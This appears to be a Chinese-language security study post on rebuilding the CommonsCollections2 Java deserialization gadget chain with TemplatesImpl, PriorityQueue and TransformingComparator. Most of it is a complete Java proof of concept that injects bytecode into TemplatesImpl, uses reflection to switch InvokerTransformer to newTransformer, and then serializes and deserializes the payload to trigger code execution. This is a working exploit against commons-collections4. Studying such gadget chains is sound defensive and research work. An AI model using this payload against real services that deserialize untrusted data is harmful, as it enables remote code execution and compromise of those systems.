




# 使用TemplatesImpl改造CommonsCollections2

为什么会有这个主要是看到之前优先级队列那个

看到这里，再结合CC6与Shiro的利用不难想到也可以改造



首先按照[之前写的那篇](https://github.com/Stakcery/JavaSec/blob/main/2.CC%E4%B8%93%E5%8C%BA/CommonsCollections6-Shiro1.2.4/CommonsCollections6-Shiro1.2.4.md)，按照模板套了一下，当然还要改一下，这里用的是`org.apache.commons.collections4.Transformer`而不是

`org.apache.commons.collections.Transformer`

这里也是要改的

```Java
Transformer transformer = new InvokerTransformer("getClass", null, null);
```

为什么呢？

跑一遍试试

报错说必须是一个可比较对象，这里看看java.lang.Comparable的实现，很明显这个String我们很喜欢，毕竟大多数类都有`toString`方法对吧



改了以后，就解决问题了，但是我们反序列化的时候需要触发`newTransformer`

所以通过反射搞回来就完事了，简单的

## 完整代码

```java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class CommonsCollections2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz =
            pool.get(test.class.getName());
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

